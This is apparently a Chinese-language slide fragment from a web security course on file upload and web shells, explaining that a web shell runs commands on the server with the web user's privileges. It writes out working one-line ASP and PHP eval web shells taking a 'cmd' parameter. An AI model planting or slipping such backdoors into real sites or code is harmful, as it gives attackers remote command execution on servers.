

# 4、文件上传与WEBshell

shell 即命令解释
	继承WEB用户权限
	WEBshell 接受WEB用户的命令
		在服务端执行
		大马
		小马
			ASP     <%eval request("cmd")%>
			PHP    <?php @eval($_REQUEST['cmd']);?>